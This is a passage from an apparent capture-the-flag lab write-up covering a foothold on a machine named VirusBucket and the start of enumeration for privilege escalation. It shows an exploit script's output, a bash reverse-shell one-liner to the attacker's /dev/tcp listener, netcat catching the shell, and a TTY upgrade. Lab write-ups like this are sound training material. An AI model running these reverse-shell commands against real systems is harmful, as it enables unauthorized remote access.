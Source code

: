 ### Getting a shell as tomcat

Now that we have automated the exploitation, let us run the scripts to get a shell.

```bash
root@darkness:~# python3 exploit.py 
[+] Upload path leaked: /opt/samples/uploads!
[*] Accessing payload: ../../../../../opt/samples/uploads/mXRyRykH
root@darkness:~# bash user.sh "bash -i >& /dev/tcp/10.10.14.15/443 0>&1" # Bash exploit
```

We get a shell back to our listener.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:53278.
bash: cannot set terminal process group (926): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@VirusBucket:/opt/tomcat$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<cat$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@VirusBucket:/opt/tomcat$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
tomcat@VirusBucket:/opt/tomcat$ export TERM=xterm
```

Now we quickly use python to upgrade our shell and we can go to our home-directory and read user.txt.

```bash
tomcat@VirusBucket:~$ cat user.txt 
3cc50***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as tomcat

After searching around a bit, checking our ip-neighbor, we can that there is another system on the network.

```bash
tomcat@VirusBucket:~$ ip neigh
172.17.0.2 dev docker0 lladdr 02:42:ac:11:00:02 REACHABLE
10.10.10.2 dev ens160 lladdr 00:50:56:b9:3a:6a REACHABLE
fe80::250:56ff:feb9:3a6a dev ens160 lladdr 00:50:56:b9:3a:6a router STALE
```

Seems like there is a docker-host (IP 172.17.0.2) in our network.
